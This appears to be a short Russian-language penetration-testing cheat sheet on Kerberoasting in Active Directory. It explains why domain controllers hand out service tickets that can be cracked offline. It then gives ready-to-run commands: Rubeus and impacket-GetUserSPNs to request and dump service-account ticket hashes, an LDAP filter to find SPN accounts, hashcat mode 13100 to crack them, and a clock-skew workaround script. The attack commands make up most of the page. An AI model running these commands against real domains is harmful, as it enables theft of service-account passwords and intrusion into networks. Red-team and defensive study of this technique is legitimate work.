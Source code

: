 # KERBEROASTING

### **Условие для проведения атаки**:

Учетная запись в домене с присвоенный SPN атрибутом.

Атакующий отправляет KRB\_TGS\_REQ сообщения с указанием SPN, ассоциированными с выявленными учетными записями. Контроллер домена не занимается авторизацией, то есть не проверяет имеет ли скомпрометированная учетная запись право доступа к запрашиваемым сервисам, (так как для выдачи TGS пользователю достаточно предоставить свой TGT) поэтому в ответ отправляются сообщения, содержащие TGS билеты, зашифрованные с использованием секретов сервисов. Таким образом, получив TGS-билеты, атакующий может попробовать подобрать пароль к сервисам по словарю оффлайн.

### Abuse

```powershell
Rubeus.exe kerberoast /stats
```

Ldap request to search for accounts that have SPN.

```powershell
"(&(objectClass=user)(objectCategory=user)(servicePrincipalName=*))"
```

Get users with SPN and send TGS-REQ

```bash
impacket-GetUserSPNs -dc-ip $DC_IP $Domain_FQDN/$username:$password -request -outputfile $file
```



### Brute

```bash
hashcat -m 13100 $kerberos_hashes $dictionary
```

### Fix errors

_\[-] Kerberos SessionError: KRB\_AP\_ERR\_SKEW(Clock skew too great)_

Если `ntpdate` или `rdate` не работают:&#x20;

```bash
TIME=$(ldapsearch -x -H ldap://dc.0x0security.local -s base -b "" currentTime | awk '/currentTime/ {print $2}' | grep -v "requesting:" | sed -E 's/^([0-9]{4})([0-9]{2})([0-9]{2})([0-9]{2})([0-9]{2})([0-9]{2})\.0Z$/\1-\2-\3 \4:\5:\6 UTC/') ; PARSED=$(date -u -d "${TIME}" +"%Y-%m-%d %H:%
M:%S");  sudo date -u -s "${PARSED}"
```
